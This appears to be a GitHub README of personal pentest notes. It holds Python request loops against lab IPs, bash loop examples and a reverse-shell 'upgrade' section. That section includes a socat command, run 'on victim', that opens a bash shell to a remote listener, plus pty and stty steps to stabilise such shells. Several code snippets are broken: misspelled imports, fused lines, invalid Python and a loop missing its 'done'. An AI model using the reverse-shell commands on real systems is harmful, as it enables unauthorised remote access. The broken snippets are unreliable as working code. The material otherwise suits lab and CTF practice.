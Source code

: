 # Auto Install
File ***Auto_install*** is script for auto installation of most used tools of linux (Ubunu/Kali)

# Python Scripts
### Requests path and append values
```
import requests path = ''
host = 'http://10.10.169.100:3000/'
value = ''
while(path is not 'end'):
  response = requests.get(host + path)
  print(response)
  json_response = response.json()
  value += json_response['value']
  path = json_response['next']
  print (path + " ")
  print (value)
print (value)
```
### Simple Requests
```
import requets
host = 'http://10.10.10.10/'
respond = requests.get(host)
print(respond.text)
```
# Bash Shell Scripts
### Loop
```
for i in {START..END}
do
   commands
done
```

#### Step value
```
for i in {START..END..STEP}
do
   commands
done
```
#### Example: ping cbz01, cbz02, cbz03, and cbz04 using a loop ##
```
for i in 0{1..4}
do
    h="cbz${i}"
    ping -c 1 -q "$h" &>/dev/null
    if [ $? -eq 0 ]
    then
        echo "server $h alive"
    else
        echo "server $h dead or can not ping."
    fi
```
#### The for Loop argument list also workes command substitution as follows:
```
for var in $(command)
do
  print "$var"
done
```
#### Example
```
for f in $(ls /nas/*.pdf)
do
  print "File $f"
done
```

### One Line Base Script
```
i=2; while [ $i -le 10 ]; do [ $i -ne 3 -a $i -ne 5 ] && echo "$i not equal to 3 or 5" || echo $i; i=$((i+1)); done
```

#### Simple Shell Upgrade
[PentestMonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

##### Python
```
python3 (import pty;pty.spawn("/bin/bash"))
```

##### Socat
socat is like netcat on steroids and is a very powerfull networking swiss-army knife. Socat can be used to pass full TTY’s over TCP connections.
```
# On Kali
socat file:`tty`,raw,echo=0 tcp-listen:4444

# On victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

##### Using stty options
```
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>

```

